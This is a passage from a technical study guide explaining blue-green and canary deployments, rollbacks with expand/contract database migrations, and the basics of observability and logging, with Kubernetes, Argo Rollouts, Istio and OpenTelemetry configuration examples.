    color: blue               # currently live; change to 'green' to switch
  ports:
    - port: 80
      targetPort: 8080
```

```bash
# 1. Deploy v2 as the green Deployment (blue keeps serving users)
kubectl apply -f checkout-green.yaml          # pods labeled color=green, image :1.6.0
kubectl rollout status deployment/checkout-green

# 2. Smoke-test green directly, without touching user traffic
kubectl port-forward deployment/checkout-green 9090:8080 &   # runs in the background
curl -fsS http://localhost:9090/healthz
curl -fsS http://localhost:9090/api/cart/demo-user

# 3. Flip the switch: all new traffic goes to green
kubectl patch service checkout -p '{"spec":{"selector":{"app":"checkout","color":"green"}}}'

# 4. Rollback = flip it back (takes seconds)
kubectl patch service checkout -p '{"spec":{"selector":{"app":"checkout","color":"blue"}}}'
```

**🌍 Real-world usage:**
- The name was popularized by Martin Fowler's 2010 article "BlueGreenDeployment". Netflix's Spinnaker historically called the same idea **"red/black"**.
- **AWS:** CodeDeploy blue/green for ECS and EC2 (shifts a load balancer between two target groups); Elastic Beanstalk "swap environment URLs"; Application Load Balancer weighted target groups; Route 53 weighted DNS records (slower, because DNS answers are cached for their TTL, the "time to live").
- **Kubernetes:** the Service-selector trick above, or **Argo Rollouts**' `blueGreen` strategy, which manages an `activeService` (live) and a `previewService` (for testing green) and can wait for manual approval before switching.
- **Azure App Service** "deployment slots" let you deploy to a staging slot and swap it with production.

**⚖️ Trade-offs:**

| Pros | Cons |
|---|---|
| Zero downtime and a near-instant switch | Double infrastructure cost during the deploy |
| Rollback in seconds: flip back to blue | 100% of users move at once; a bug that only shows under real traffic hits everyone |
| Test the new version on real production infrastructure first | Shared database must support both versions (careful migrations) |
| No mixed versions serving users at the same time | Background jobs, sessions, and long-lived connections need extra care |

**⚠️ Common mistakes:**
- **Skipping smoke tests on green** and discovering it can't even connect to the database only after the switch.
- **Destructive schema changes** (dropping or renaming columns), so "switch back to blue" no longer works.
- **Deleting blue right after the switch**, losing your instant rollback.
- **Switching with DNS that has a long TTL**: some users stay on blue for hours. Prefer switching at the load balancer.
- **Workers and cron jobs running in both colors**, causing duplicate emails or payments.

**🎯 Remember:** Blue-green = two identical environments and one switch. Test green, flip, and keep blue warm so rollback is just flipping back. The shared database is what you must design for.

**🔗 See also:** [#78 Rolling Deployments](#78-rolling-deployments), [#80 Canary Releases](#80-canary-releases), [#81 Rollbacks](#81-rollbacks)

---


### 80. Canary Releases

> **In one line:** Give the new version to a tiny slice of users first, watch closely, and only give it to more people if nothing breaks.

**🏠 Real-life analogy:** Coal miners used to carry a **canary** into the mine. The bird was more sensitive to toxic gas than people, so if it got sick, the miners knew to get out *before* they were harmed. In software, a small slice of traffic (say 1%) is your canary. If those users start getting errors, you stop the release before everyone else is affected.

**❓ What problem does it solve?**
- **Blue-green** moves 100% of users at once. Some bugs only appear with **real traffic**: unusual data, certain phones, a specific region, or full load. Then *everyone* is hit.
- **Rolling** deploys check "is the pod alive?", not "is it behaving correctly?". A pod can be healthy while returning wrong prices.
- Canary releases limit the **blast radius** (how many users are hurt when something goes wrong) and use **real production metrics** as the final test.

**⚙️ How it works:**
1. Deploy v2 **next to** the stable v1 (a few "canary" instances).
2. Send a **small percentage** of traffic to v2, for example 1%. The split is done by load balancer weights, a **service mesh** (a network layer between services that can route traffic precisely, such as Istio), or simply by the ratio of pods.
3. **Compare canary vs stable metrics:** error rate (for example, share of HTTP 5xx responses), latency p99 (the time within which 99% of requests finish), CPU and memory, crashes, and **business metrics** (checkouts per minute, logins).
4. Wait for a **bake time** at each step (how long you watch before moving on, e.g., 10 minutes).
5. If healthy, **promote** to the next step: 1% → 5% → 25% → 50% → 100%.
6. If any metric gets worse beyond a threshold, **abort**: all traffic goes back to v1 automatically and the team is alerted.

**Variants and tips:**
- **Automated canary analysis (ACA):** software compares canary metrics against a **baseline** using statistics and gives a pass/fail score, instead of a human eyeballing dashboards. A fair baseline is a *fresh* copy of v1 of the same size, so long-running old instances don't skew the comparison.
- **Who is in the canary?** A random slice of requests, a sticky slice of **users** (hashed by user id, so each person has a consistent experience), employees first, or one region/data center first. Rolling through groups of servers or regions one after another is often called **rings** or **waves**.
- **Canary everything that changes behavior**, including configuration and content updates, not just code.

```mermaid
flowchart LR
    Users["All users"] --> Split["Traffic splitter<br/>(load balancer, Istio, NGINX)"]
    Split -->|"95%"| Stable["Stable: v1<br/>(9 pods)"]
    Split -->|"5%"| CanaryPods["Canary: v2<br/>(1 pod)"]
    Stable --> Metrics["Metrics<br/>(Prometheus, Datadog)"]
    CanaryPods --> Metrics
    Metrics --> Judge{"Is the canary as<br/>healthy as stable?"}
```

The automatic promote-or-rollback loop:

```mermaid
flowchart TD
    Start["Deploy v2 next to v1"] --> Shift["Shift the next step of traffic<br/>1% then 5% then 25% then 100%"]
    Shift --> Bake["Bake: wait and collect metrics<br/>(e.g. 10 minutes)"]
    Bake --> Check{"Error rate and latency<br/>within limits?"}
    Check -->|"no"| Abort["Abort: route 100% back to v1<br/>and alert the team"]
    Check -->|"yes"| Full{"Already at 100%?"}
    Full -->|"no"| Shift
    Full -->|"yes"| Promote["Promote: v2 becomes stable<br/>old v1 pods removed"]
```

**💻 Example:**
**Argo Rollouts** replaces a Kubernetes Deployment with a `Rollout` that has canary steps. With Istio doing the traffic split, weights are exact (even 1%), and a background analysis can abort the rollout automatically:

```yaml
apiVersion: argoproj.io/v1alpha1
kind: Rollout
metadata:
  name: checkout
spec:
  replicas: 10
  selector:
    matchLabels: {app: checkout}
  template:                       # same pod template as a normal Deployment
    metadata:
      labels: {app: checkout}
    spec:
      containers:
        - name: checkout
          image: registry.example.com/checkout:1.7.0
  strategy:
    canary:
      stableService: checkout-stable    # Service pointing at v1 pods
      canaryService: checkout-canary    # Service pointing at v2 pods
      trafficRouting:
        istio:
          virtualService: {name: checkout-vsvc}   # Istio sets exact weights
      analysis:                         # runs in the background during the rollout
        templates: [{templateName: success-rate}]
        startingStep: 1
      steps:
        - setWeight: 1
        - pause: {duration: 10m}
        - setWeight: 5
        - pause: {duration: 10m}
        - setWeight: 25
        - pause: {duration: 30m}
        - setWeight: 50
        - pause: {}                     # wait for a human to promote to 100%
```

The analysis checks the canary's success rate in Prometheus every minute. If it fails too often, Argo Rollouts aborts and sends all traffic back to stable:

```yaml
apiVersion: argoproj.io/v1alpha1
kind: AnalysisTemplate
metadata:
  name: success-rate
spec:
  metrics:
    - name: success-rate
      interval: 1m                      # measure every minute
      failureLimit: 2                   # a 3rd failed measurement aborts the rollout
      successCondition: result[0] >= 0.99
      provider:
        prometheus:
          address: http://prometheus.monitoring:9090
          query: |
            sum(rate(http_requests_total{service="checkout-canary",code!~"5.."}[5m]))
            /
            sum(rate(http_requests_total{service="checkout-canary"}[5m]))
```

```bash
kubectl argo rollouts get rollout checkout --watch   # live view of steps and weights
kubectl argo rollouts promote checkout               # continue past a manual pause
kubectl argo rollouts abort checkout                 # send all traffic back to stable
```

Without Argo, a service mesh can split traffic by itself. This Istio rule sends 5% of requests to the canary (the `stable` and `canary` subsets are defined in a matching DestinationRule):

```yaml
apiVersion: networking.istio.io/v1beta1
kind: VirtualService
metadata:
  name: checkout
spec:
  hosts: ["checkout"]
  http:
    - route:
        - destination: {host: checkout, subset: stable}
          weight: 95
        - destination: {host: checkout, subset: canary}
          weight: 5
```

**🌍 Real-world usage:**
- **Tools:** **Argo Rollouts** (Kubernetes controller for canary and blue-green with automated analysis); **Flagger** (part of the Flux project; automates canaries using Istio, Linkerd, NGINX and others); **Spinnaker** (the delivery platform that came out of Netflix) with **Kayenta**, an automated canary analysis engine open-sourced by **Netflix and Google** in 2018; service meshes like **Istio** and **Linkerd** for weighted traffic splitting.
- **Cloud:** AWS CodeDeploy has built-in canary configs for Lambda and ECS (for example, shift 10% first, then the rest after 5 minutes), and Lambda aliases support weighted traffic between versions. Amazon's Builders' Library describes deploying to a single box first, then to small waves, with automatic rollback on alarms.
- **Mobile apps:** Google Play "staged rollouts" and Apple's App Store "phased release" are canaries for apps on phones.
- **Cautionary tale — CrowdStrike (19 July 2024):** CrowdStrike pushed a faulty **content configuration update** for its Falcon security sensor to Windows computers **broadly, all at once**, rather than to a small group first. A bug in how the sensor handled the new file made Windows crash, taking down about **8.5 million machines** worldwide and disrupting airlines, hospitals and banks. In its review, CrowdStrike committed to **staggered (canary) deployment** of such updates, starting small and widening gradually while monitoring. The lesson: **config and content changes need canaries too.** (Cloudflare's 2019 outage had a similar shape: a bad WAF rule with an expensive regex was pushed globally in one go and maxed out CPUs.)

**⚖️ Trade-offs:**

| Pros | Cons |
|---|---|
| Smallest blast radius: only the canary slice sees a bad version | Needs good metrics, alerts, and thresholds, or it's just a slow rollout |
| Real production traffic is the final test | More moving parts: traffic splitting, analysis, a controller |
| Can be fully automated: promote or roll back without humans | Small canaries need time to gather enough data (low traffic = slow, noisy signal) |
| Rollback is fast: shift traffic back to stable | Two versions live at once (same compatibility rules as rolling) |

**⚠️ Common mistakes:**
- **Too small or too short a canary:** 50 requests and 1 error tells you nothing. Make sure each step sees enough traffic.
- **Only watching CPU and 5xx errors:** a canary can be "healthy" while checkouts drop. Include business metrics.
- **Comparing against old, long-running instances** instead of a fresh baseline, which biases the result.
- **Non-sticky canaries:** a user bounces between v1 and v2 on every click and sees an inconsistent app.
- **Skipping canaries for "just a config change"**, exactly the CrowdStrike and Cloudflare pattern. Also remember: a schema change in the shared database hits 100% of traffic immediately, canary or not.

**🎯 Remember:** Canary = small slice first, watch the metrics, expand step by step, and abort automatically if things get worse. It turns "deploy and pray" into "deploy and measure".

**🔗 See also:** [#77 Feature Flags](#77-feature-flags), [#79 Blue-Green Deployment](#79-blue-green-deployment), [#81 Rollbacks](#81-rollbacks)

---


### 81. Rollbacks

> **In one line:** A rollback means quickly going back to the last version that worked, so users stop suffering while you figure out what went wrong.

**🏠 Real-life analogy:** Rolling back is like pressing **Undo (Ctrl+Z)** after a bad edit: instantly back to the last good state, then you think calmly. But Undo can't "un-send" an email you already sent. In the same way, some changes, like deleting a database column or charging a credit card, cannot be undone by switching code back. Good teams plan for that *before* they deploy.

**❓ What problem does it solve?**
Every deploy can go wrong. Without a fast, practiced way back, a bad deploy turns into a long outage while engineers debug live under pressure. What matters is **MTTR** (mean time to recovery: the average time it takes to get things working again). The rule many teams follow is: **first stop the bleeding (roll back), then investigate.**

**⚙️ How it works:**

**Rollback vs roll-forward (fix-forward):**

| | Rollback | Roll-forward (fix-forward) |
|---|---|---|
| What you do | Redeploy the previous known-good version | Write a fix and ship a *new* version on top |
| Speed | Seconds to minutes (it's already built and tested) | As fast as you can write, review, test, and deploy a fix |
| Risk | Low, *if* the old version still works with today's data and schema | Higher: rushed code written under stress |
| Use when | Default first move when a deploy causes trouble and the cause isn't obvious | Rollback is impossible (irreversible migration, new data format), or the fix is tiny, obvious, and your pipeline is fast |

**Ways to go back** (fastest first):
1. **Turn off the feature flag**: seconds, no deploy at all (see #77).
2. **Switch traffic back**: abort the canary (#80) or flip from green back to blue (#79).
3. **Redeploy the previous immutable image.** Every build produces a version that is **never overwritten** (for example `checkout:1.6.0` or a Git commit SHA). Rollback = deploy the previous tag. This is why `:latest` is dangerous: "previous" no longer exists.
4. **Kubernetes:** `kubectl rollout undo` (Kubernetes keeps old ReplicaSets, 10 by default via `revisionHistoryLimit`).
5. **Helm** (a package manager for Kubernetes apps): `helm rollback <release> <revision>`, because Helm stores every release revision.
6. **GitOps** (Argo CD or Flux deploy whatever is in Git): `git revert` the commit that changed the version, and the controller syncs it back.

**Why database migrations make rollback hard.** You can roll back *code*, but not easily *data*. If v2 dropped the `phone` column, rolling back to v1 (which reads `phone`) breaks, and the data is gone. The rule: **every schema change must be backward compatible with the previous app version.** Use the **expand/contract** pattern (also called "parallel change"):
1. **Expand:** add the new column or table; remove nothing. Old code simply ignores it.
2. **Migrate:** new code writes to both old and new; backfill old rows in small batches.
3. **Switch:** read from the new column (still writing both, so rolling back one version is safe).
4. **Contract:** weeks later, stop writing the old column, then drop it in a separate release.

At every step, the previous app version still works, so a rollback is always safe.

**Automatic rollback triggers.** Humans are slow at 3 am. Connect your alerts to your deploy tooling:
- Argo Rollouts and Flagger abort and roll back when canary analysis fails.
- AWS CodeDeploy can roll back automatically when a deployment fails or a CloudWatch alarm fires.
- Note: plain Kubernetes does **not** undo a failed rollout by itself. After `progressDeadlineSeconds` it only marks the rollout as failed; your pipeline must react.

**Practice rollbacks.** A rollback procedure that has never been run probably doesn't work. Rehearse it in staging and sometimes in production, make it **one command or one button**, and let any on-call engineer roll back **without asking for approval**.

```mermaid
flowchart TD
    Bad["Deploy went bad:<br/>alerts firing, users affected"] --> Flag{"Is the change behind<br/>a feature flag?"}
    Flag -->|"yes"| FlagOff["Turn the flag off<br/>(seconds)"]
    Flag -->|"no"| Window{"Still in a canary or<br/>blue-green window?"}
    Window -->|"yes"| Abort["Abort the canary or<br/>switch back to blue"]
    Window -->|"no"| Safe{"Does the old version<br/>still work with the<br/>current DB and data?"}
    Safe -->|"yes"| Undo["Roll back:<br/>redeploy the previous image"]
    Safe -->|"no"| Fix["Roll forward:<br/>small hotfix, fast pipeline"]
    FlagOff --> Verify["Check metrics recovered,<br/>then write a postmortem"]
    Abort --> Verify
    Undo --> Verify
    Fix --> Verify
```

**💻 Example:**
Rollback commands for the most common setups:

```bash
# Kubernetes: go back one revision, or to a specific one
kubectl rollout undo deployment/checkout
kubectl rollout undo deployment/checkout --to-revision=7
kubectl rollout status deployment/checkout        # confirm it finished

# Helm: list revisions, then roll back to a known-good one
helm history checkout
helm rollback checkout 41

# Plain redeploy of a previous immutable image tag (never ':latest')
kubectl set image deployment/checkout checkout=registry.example.com/checkout:1.6.0

# GitOps: revert the commit that bumped the version; Argo CD or Flux syncs it
git revert REPLACE_WITH_COMMIT_HASH && git push
```

Expand/contract in SQL, renaming `name` to `full_name` without ever breaking the previous app version:

```sql
-- Release 1 (EXPAND): add, never remove. Old code ignores the new column.
ALTER TABLE users ADD COLUMN full_name TEXT NULL;

-- Release 2: app writes BOTH columns. Backfill old rows in small batches.
UPDATE users SET full_name = name
WHERE full_name IS NULL AND id BETWEEN 1 AND 10000;

-- Release 3: app READS full_name but still writes both (rollback to Release 2 is safe).

-- Release 4: app stops writing 'name'.

-- Release 5 (CONTRACT): weeks later, when nobody will roll back past Release 4.
ALTER TABLE users DROP COLUMN name;
```

**🌍 Real-world usage:** Kubernetes, Helm, Argo CD and Flux all keep version history so you can go back. AWS CodeDeploy, Argo Rollouts, Flagger and Spinnaker can roll back automatically on bad metrics. Amazon's Builders' Library describes automatic rollback on alarms during deployments as a core safety practice. Database migration tools such as Flyway, Liquibase, and Rails or Django migrations are commonly used with expand/contract so every step stays backward compatible.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| Turn off a feature flag | The bad change is behind a flag | Only works if you planned the flag in advance |
| Switch traffic back (canary abort, blue-green flip) | Still inside the canary or blue-green window | Needs the old version still running |
| Redeploy the previous image | Most bad deploys | Takes minutes; unsafe if data or schema changed incompatibly |
| Roll forward with a hotfix | Rollback impossible, or the fix is tiny and certain | Rushed code under pressure can make things worse |

**All deployment strategies compared:**

| Strategy | How it works | Downtime | Rollback speed | Extra cost | Complexity | Risk (blast radius) | Best for |
|---|---|---|---|---|---|---|---|
| **Recreate** | Stop all v1, then start all v2 | **Yes** (seconds to minutes) | Slow: another full redeploy, with downtime again | None | Very low | High: 100% of users, plus an outage window | Dev/test, batch jobs, apps where two versions must never run together |
| **Rolling** | Replace instances a few at a time | None (with readiness probes) | Medium: another rolling deploy (minutes) | Low (a few surge pods) | Low (Kubernetes default) | Medium: grows as the rollout proceeds; health checks catch crashes only | Most stateless services; the sensible default |
| **Blue-Green** | Two full environments; flip the router | None | Very fast: flip back (seconds) | High: 2x infrastructure during deploy | Medium | High at the moment of the switch (100% at once), but tested first and instantly reversible | Releases needing pre-switch testing and instant rollback |
| **Canary** | Small % of traffic first; expand while watching metrics | None | Fast: shift traffic back to stable (seconds to minutes) | Low to medium (a few extra pods plus monitoring) | High (traffic splitting, metrics, analysis) | Low: only the canary slice is affected | High-traffic, business-critical services |
| **Feature Flags** | Code is deployed "off", then switched on per user or % | None | Fastest: flip the flag (seconds, no deploy) | Low (flag service) plus flag debt | Medium (extra code paths, cleanup) | Very low and fine-grained, down to single users | Gradual feature launches, experiments, kill switches |

These strategies **combine**: a common setup is to *deploy* with rolling or canary (protects against crashes and infrastructure problems) and *release* with feature flags (protects against feature and logic bugs).

**⚠️ Common mistakes:**
- **Mutable image tags** (`:latest`), so the "previous version" you want to roll back to no longer exists.
- **Shipping a destructive migration** (drop or rename) in the same release as the code that needs it, which makes rollback impossible.
- **Never practicing**, then discovering during an outage that the rollback script is broken.
- **Debugging in production for an hour** before rolling back. Roll back first, investigate second.
- **Rolling back code but not config:** flag states, environment variables, or secrets changed alongside the deploy and are forgotten.

**🎯 Remember:** Always have a fast, practiced, one-command way back, and keep every database change backward compatible so that way back stays open. When in doubt, roll back first and debug later.

**🔗 See also:** [#77 Feature Flags](#77-feature-flags), [#78 Rolling Deployments](#78-rolling-deployments), [#79 Blue-Green Deployment](#79-blue-green-deployment), [#80 Canary Releases](#80-canary-releases)

---

### 🧠 Part 12 Quiz

**Q1. What is the difference between "deploying" and "releasing", and how do feature flags help?**
<details><summary>Show answer</summary>

Deploying puts new code on servers; releasing lets users actually experience the new behavior. Feature flags separate the two: you deploy code switched "off", then turn it on for staff, then 1%, then everyone, and switch it off in seconds if something goes wrong, all without a new deploy.

</details>

**Q2. What would you do if, at the 5% canary step, the canary shows a 2% error rate while stable shows 0.2%?**
<details><summary>Show answer</summary>

Abort the canary right away: send 100% of traffic back to the stable version, then investigate using the canary's logs and metrics. Ideally automated canary analysis (Argo Rollouts, Flagger, Kayenta) does this for you before a human even notices. Only 5% of users were affected, which is exactly why canaries exist.

</details>

**Q3. Blue-green vs canary: what is the main difference, and when would you pick each?**
<details><summary>Show answer</summary>

Blue-green tests the new version on a full, idle copy of production and then moves **100%** of traffic at once, with instant rollback by flipping back. It costs double infrastructure during the deploy. Canary moves traffic **gradually** (1% → 5% → 25% → 100%) while comparing metrics, so a bug only hurts a small slice of users. Pick blue-green when you need pre-switch testing and an instant switch; pick canary for high-traffic, critical services where limiting the blast radius matters most.

</details>

**Q4. During a rolling deployment, v2 renames the database column `email` to `email_address`. Halfway through, errors spike. Why, and how should it have been done?**
<details><summary>Show answer</summary>

During a rolling deploy, v1 and v2 run at the same time against the same database, so every v1 pod still asking for `email` broke the moment the column was renamed (and rolling back won't fix it either). Use expand/contract: add `email_address`, write to both columns, backfill, switch reads, and only drop `email` in a later release once no running or rollback-able version needs it.

</details>

**Q5. For a 10% percentage rollout, why hash the user id instead of calling `random()`, and why include the flag name in the hash?**
<details><summary>Show answer</summary>

A stable hash puts each user in the same bucket every time and on every server, so they don't flip between old and new behavior. Raising 10% to 25% also keeps the first 10% included. Adding the flag name to the hash makes each flag pick a different set of users, so the same people aren't the test group for every new feature.

</details>


## Part 13 — Observability

Once your system is live, you need a way to see inside it. Users will hit errors, pages will get slow, and disks will fill up at 3 a.m. Observability is how engineers find out what is happening, why it is happening, and how bad it is for users. This part starts with the raw signals (logs, metrics, traces). Then it shows how teams turn those signals into dashboards, alerts and clear reliability goals (SLIs, SLOs and error budgets).

```mermaid
flowchart LR
    Obs["82. Observability<br/>(the big idea)"] --> Logs["83. Logging"]
    Obs --> Metrics["84. Metrics"]
    Obs --> Traces["85. Distributed Tracing"]
    Logs --> Mon["86. Monitoring"]
    Metrics --> Mon
    Traces --> Mon
    Mon --> Alerts["87. Alerts"]
    Metrics --> SLI["88. SLIs"]
    SLI --> SLO["89. SLOs"]
    SLO --> Budget["90. Error Budgets"]
    Budget -->|"burn-rate alerts"| Alerts
```

---

### 82. Observability

> **In one line:** Observability is how easily you can figure out what is going on inside your running software just by looking at the data it sends out.

**🏠 Real-life analogy:** Your car's dashboard has a speedometer, a fuel gauge and a "check engine" light. The car's engineers predicted these problems, so they built a light for each one. That is **monitoring**. Now say the car makes a strange noise that no light covers. A mechanic plugs a diagnostic computer into the car and reads hundreds of sensor values to work out the cause. That is **observability**. A doctor works the same way. Taking your temperature is a known check. When the symptoms are unusual, the doctor orders blood tests and scans to find a cause nobody expected.

**❓ What problem does it solve?**
- In the old days, an app ran on one server. If it broke, you logged in and looked around. Today one click on "Buy" can touch 10+ microservices running in hundreds of containers that start and stop all the time.
- A typical question during an outage is "Checkout is slow, but only for some Android users in Brazil, since 14:05". No dashboard was built for that exact question.
- Without observability, engineers guess. They add `print` statements, redeploy, wait, and guess again. Outages last hours instead of minutes. The industry calls this time **MTTR** (mean time to recovery: how long it takes to fix things on average).
- Observability gives you rich, connected data. You can ask **new questions** without shipping new code.

**⚙️ How it works:**
1. **Instrument the code.** You add a library (or an automatic agent) that makes the app emit **telemetry**, meaning data the software sends about itself.
2. **Emit the signals.** The "three pillars" plus two newer ones:

| Signal | What it is | Question it answers | Tiny example | Popular tools |
|---|---|---|---|---|
| **Logs** | Timestamped records of events (a diary) | "What exactly happened?" | `ERROR payment declined order=9001` | Loki, Elasticsearch, Splunk |
| **Metrics** | Numbers measured over time | "How many? How fast? How full?" | `http_requests_total = 10234` | Prometheus, Datadog |
| **Traces** | The timed path of one request across services | "Where did the time go? Which hop failed?" | checkout 480 ms, of which payment 240 ms | Jaeger, Tempo, Zipkin |
| **Profiles** | Which functions use CPU and memory, captured all the time | "Which line of code is hot?" | 40% of CPU time in `json.dumps` | Pyroscope, Parca |
| **Events** | "Wide" records with many fields, usually one per request | "Slice by any field you like" | `{route, user_tier, region, build_id, ...}` | Honeycomb |

3. **Collect.** Apps send telemetry to an **OpenTelemetry Collector**, a small service that receives the data, batches it, filters it, removes secrets, samples it and forwards it.
4. **Store.** Each signal goes to a backend built for it. Metrics go to a time-series database (Prometheus), logs to a log store (Loki/Elasticsearch), and traces to a trace store (Jaeger/Tempo).
5. **Explore and alert.** A UI like **Grafana** lets you query everything in one place. Alerts tell humans when something is wrong.
6. **Correlate.** The same `trace_id` appears in logs, traces and metric "exemplars" (a sample trace attached to a metric data point). You can jump from "error spike on the graph" to "the slow trace" to "the exact log line".

**Monitoring vs observability:**

| | Monitoring | Observability |
|---|---|---|
| Main question | "**Is** something broken?" | "**Why** is it broken, and for whom?" |
| Handles | **Known unknowns**: failures you predicted (disk full, CPU high) | **Unknown unknowns**: failures you never imagined |
| How | Predefined dashboards and alert rules | Ad-hoc queries over detailed, high-context data |
| Analogy | The check-engine light | The mechanic's diagnostic computer |

Monitoring is something you **do**. Observability is a **property** your system **has**. You need both.

```mermaid
flowchart LR
    subgraph Apps["Your services (OpenTelemetry SDK inside)"]
        Api["API service"]
        Orders["Order service"]
        Pay["Payment service"]
    end
    Collector["OpenTelemetry Collector<br/>receive, batch, scrub, sample"]
    Prom[("Prometheus<br/>metrics")]
    LogStore[("Loki / Elasticsearch<br/>logs")]
    TraceStore[("Jaeger / Tempo<br/>traces")]
    Grafana["Grafana<br/>dashboards and queries"]
    Api -->|"OTLP"| Collector
    Orders -->|"OTLP"| Collector
    Pay -->|"OTLP"| Collector
    Collector -->|"metrics"| Prom
    Collector -->|"logs"| LogStore
    Collector -->|"traces"| TraceStore
    Prom --> Grafana
    LogStore --> Grafana
    TraceStore --> Grafana
```

**OpenTelemetry (OTel), the vendor-neutral standard:** OpenTelemetry is an open-source project under the CNCF (Cloud Native Computing Foundation). It was formed in 2019 by merging two earlier projects, OpenTracing and OpenCensus. It gives you:
- **APIs and SDKs** for many languages (Python, Java, Go, JavaScript, .NET, ...).
- **OTLP**, a standard wire protocol for sending telemetry.
- **The Collector**, which receives data from apps and forwards it.
- **Semantic conventions**, which are standard attribute names such as `http.request.method` and `service.name`.

You instrument your code **once**. You can then send the data to Grafana, Datadog, New Relic, Honeycomb, AWS or anything else that speaks OTLP, and switching vendors means changing config instead of rewriting code.

**💻 Example:** A minimal OpenTelemetry Collector config. It receives all three signals from apps and fans them out to three backends:

```yaml
# otel-collector.yaml
receivers:
  otlp:                       # apps send OTLP here
    protocols:
      grpc:
        endpoint: 0.0.0.0:4317
      http:
        endpoint: 0.0.0.0:4318
processors:
  batch: {}                   # group data into batches = fewer network calls
exporters:
  prometheusremotewrite:      # metrics -> Prometheus (remote-write receiver enabled)
    endpoint: http://prometheus:9090/api/v1/write
  otlphttp/loki:              # logs -> Loki's OTLP endpoint
    endpoint: http://loki:3100/otlp
  otlp/tempo:                 # traces -> Tempo
    endpoint: tempo:4317
    tls:
      insecure: true
service:
  pipelines:
    metrics: { receivers: [otlp], processors: [batch], exporters: [prometheusremotewrite] }
    logs:    { receivers: [otlp], processors: [batch], exporters: [otlphttp/loki] }
    traces:  { receivers: [otlp], processors: [batch], exporters: [otlp/tempo] }
```

The app only knows one address (the collector). Changing backends means editing this file, not your code.

**🌍 Real-world usage:**
- The word "observability" comes from control theory (Rudolf Kálmán, around 1960). Twitter had a team called "Observability" in the early 2010s. Honeycomb (Charity Majors and colleagues) popularized the "unknown unknowns" framing.
- Google built **Dapper** (tracing) and **Monarch** (metrics) internally. Netflix open-sourced **Atlas** (metrics). Uber created **Jaeger** (tracing).
- Popular stacks:
  - **Grafana "LGTM"** (Loki, Grafana, Tempo, Mimir), all open source.
  - **Elastic** (ELK).
  - SaaS products: **Datadog**, **New Relic**, **Dynatrace**, **Splunk**, **Honeycomb**.
  - Cloud-native options: **AWS CloudWatch/X-Ray**, **Google Cloud Observability**, **Azure Monitor**.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| Self-hosted open source (Prometheus + Loki + Tempo + Grafana) | You have platform engineers and want control and lower license cost | You run, scale and upgrade it yourself |
| SaaS all-in-one (Datadog, New Relic, Honeycomb) | Small team, want it working today | Bills grow fast with data volume and hosts |
| Cloud provider tools (CloudWatch, Google Cloud Observability) | You're all-in on one cloud | Weaker across multiple clouds, so you're tied to that one provider |
| OpenTelemetry for instrumentation (any backend) | Almost always | Some parts are still maturing in some languages |

**⚠️ Common mistakes:**
- Thinking "we have dashboards" means "we have observability". Dashboards only answer questions you thought of in advance.
- Keeping logs, metrics and traces in three silos with no shared IDs, so you can't jump from a spike to its cause.
- Collecting everything forever with no budget. Observability bills can rival your compute bill.
- Adding instrumentation only after a big outage. Add it before.
- Using a different vendor's proprietary agent in every service. Standardize on OpenTelemetry.

**🎯 Remember:** Monitoring tells you **that** something is wrong. Observability lets you find out **why**, even for problems nobody predicted. Instrument once with OpenTelemetry and send the data anywhere.

**🔗 See also:** [#83 Logging](#83-logging), [#84 Metrics](#84-metrics), [#85 Distributed Tracing](#85-distributed-tracing), [#86 Monitoring](#86-monitoring), [#88 SLIs](#88-slis)

---

### 83. Logging

> **In one line:** A log is a diary entry your program writes whenever something interesting happens, so you can read back later what went on.

**🏠 Real-life analogy:** A ship's captain keeps a logbook. Every few hours they write down the time, position, weather and anything unusual. If the ship runs aground, investigators read the logbook to rebuild the story. If the captain only wrote "stuff happened", the book is useless. If they wrote down every single wave, nobody could find anything, and the paper would cost a fortune. Good logging is the art of writing the **right** entries in a **searchable** way.

**❓ What problem does it solve?**
- A customer says "my payment failed at 3:14 pm". Without logs you have no record of what your code did at that moment.
- Metrics say the error rate went up. Logs tell you **which** error, for **which** order, with **which** message.
- In the cloud, servers and containers come and go. A log file on a container's local disk **disappears** when the container dies. That's why logs must be shipped to a central place.
- Free-text logs like `Payment failed for user 42` are hard for machines to search across billions of lines. Structured logs fix that.

**⚙️ How it works:**
1. **The code calls a logger** with a **level** (how serious) and a message plus fields.
2. **Log levels.** Production usually keeps INFO and above. Python calls the top level `CRITICAL`, and some libraries add `TRACE` below `DEBUG`.

| Level | Meaning | Example | On in production? |
|---|---|---|---|
| **DEBUG** | Detailed info for developers | `cache key computed: user:42:cart` | Usually off (too noisy) |
| **INFO** | Normal but noteworthy events | `order 9001 created` | Yes |
| **WARN** | Something odd happened, but it was handled | `payment API slow, retrying (2/3)` | Yes |
| **ERROR** | An operation failed | `payment failed for order 9001: timeout` | Yes, and usually counted/alerted |
| **FATAL** | The app cannot continue and is about to exit | `cannot connect to database at startup, exiting` | Yes (rare) |

3. **Unstructured vs structured logs:**
   - Unstructured (plain text): `2026-10-27 14:03:22 ERROR Payment failed for user 42 order 9001 after 3 retries`. Humans can read it. Machines need fragile regexes.
   - Structured (JSON, one object per line):
     `{"ts":"2026-10-27T14:03:22.481Z","level":"error","service":"payment","event":"payment_failed","user_id":42,"order_id":9001,"retries":3,"request_id":"req-7f3a9c21"}`.
     Now you can filter `service=payment AND level=error AND retries>=3` without any regex.
4. **Correlation (request) IDs.** The first service that receives a request (the API gateway or load balancer) creates a unique ID. It passes the ID along in a header such as `X-Request-ID`, or in the W3C `traceparent` header (see #85). **Every** service adds the ID to **every** log line. Searching that one ID then shows the whole story across all services.
5. **Centralized pipeline.**
   1. Apps write to **stdout**, the standard console output (the "12-factor app" rule: treat logs as a stream).
   2. An **agent** on each machine collects that output. Common agents are Fluent Bit, Fluentd, Vector, Filebeat and the OTel Collector.
   3. The agent parses each line, adds metadata such as host and pod name, removes secrets, and ships it.
   4. An optional buffer (often Kafka) absorbs bursts.
   5. A **store/index** keeps the logs: Elasticsearch/OpenSearch, Grafana Loki or Splunk.
   6. A **search UI** sits on top: Kibana or Grafana.
6. **Retention, sampling and cost.**
   - Logs are often the **biggest** observability bill, because most vendors charge per GB ingested plus per GB stored.
   - Keep the last ~7–30 days "hot" (fast to search). Move older logs to cheap object storage like S3. Delete them after your legal/compliance period ends.
   - **Sample** noisy logs. For example, keep 1% of successful health-check logs but 100% of errors.
7. **Never log secrets or PII** (personally identifiable information). That means:
   - passwords, API keys, tokens, session cookies, `Authorization` headers;
   - full card numbers or CVV (card-industry rules, PCI DSS, forbid it);
   - government ID numbers and health data.

